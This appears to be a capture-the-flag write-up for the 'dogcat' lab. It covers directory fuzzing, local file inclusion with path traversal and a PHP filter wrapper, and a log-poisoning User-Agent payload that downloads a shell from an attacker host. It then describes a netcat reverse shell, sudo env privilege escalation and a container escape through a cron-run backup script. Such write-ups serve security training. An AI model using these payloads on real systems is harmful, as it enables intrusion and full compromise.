 # dogcat

We start with the port scan using nmap

`nmap -sC -sV 10.10.1.190` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Fuzzing the website for directories reveals a page named `flag.php` , very interesting one. We leave it there for the time being and come back for it later.

![image.png](image%201.png)

![image.png](image%202.png)

The webpage seems to be minimal with two buttons that generate an image of either a dog or a cat.

![image.png](image%203.png)

Looking at the URL, we can see the possibilities of LFI.

`http://10.10.1.190/?view=dog`

Through trial and error, we discover that the URL must contain either the keyword `cat` or `dog`—likely due to specific functionality in the backend code. When we test the following URL, we receive an error.

`http://10.10.1.190/?view=cat/../../../../../../../../etc/passwd`

![image.png](image%204.png)

The error reveals that the file name has been appended with `.php` extension. Next we try the PHP filter wrapper exploitation to get the source code for `index` .

`http://10.10.1.190/?view=php://filter/read=convert.base64-encode/cat/resource=index`

![image.png](image%205.png)

Decoding it using cyberchef reveals the mechanism implemented behind the scene. The code confirms our initial findings: URLs must include either "cat" or "dog", and the extension `.php` is automatically appended.

```php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

From our initial directory fuzzing, we discovered a page named `flag.php`. Let's attempt to access this page.

![image.png](image%206.png)

Decoding it gives us the first flag. 

![image.png](image%207.png)

Using our gathered information, we attempt to access the `/etc/passwd` file. To prevent the automatic extension from being added, we pass an empty extension parameter `ext=`.

![image.png](image%208.png)

Not much information was gathered from here.

After researching, we discover log poisoning as a potential attack vector. We decide to try this technique by using the User-Agent method to deliver our payload to the server. Using Burp Suite, we capture a request and modify its User-Agent header to contain our payload.

`<?php file_put_contents('shell.php',file_get_contents('http://{Attacker ip}/shell.php')); ?>`

![image.png](image%209.png)

To execute this successfully, we need to serve the reverse shell file from our local server. After sending the request, monitor for completed GET requests.

![image.png](image%2010.png)

Once complete, set up netcat listener on the port configured in the script and use the browser to access `http://{machine ip}/shell.php`.

![image.png](image%2011.png)

Once inside the machine we find the second flag at `/var/www/` .

![image.png](image%2012.png)

Next, we run `sudo -l` to identify any commands we can exploit to obtain a root shell. 

![image.png](image%2013.png)

It reveals we can execute `/usr/bin/env`  as root without password.

Searching for "env" on GTFOBins reveals the command needed to obtain a root shell.

![image.png](image%2014.png)

![image.png](image%2015.png)

Subsequently we find the third flag.

![image.png](image%2016.png)

Hold on—there's one more flag to find. Looking at the room description, we see a mention of getting out of a container. When running the `hostname` command, we get an alphanumerical value. If this were a regular machine, it would have been named something like "dogcat" instead.

![image.png](image%2017.png)

While searching through the directories for clues, we discover a `backup.sh` file in the `/opt` directory. It's backing up from `/root/container`, but no such folder exists in the root directory. This suggests it might be referring to the host machine. The backup file generated has a very recent timestamp compared to the script, which means it might be running at regular intervals. We modify the code in `backup.sh` to get a reverse shell back to our machine.

![image.png](image%2018.png)

Now we have a root shell on the host machine and the final flag.

![image.png](image%2019.png)

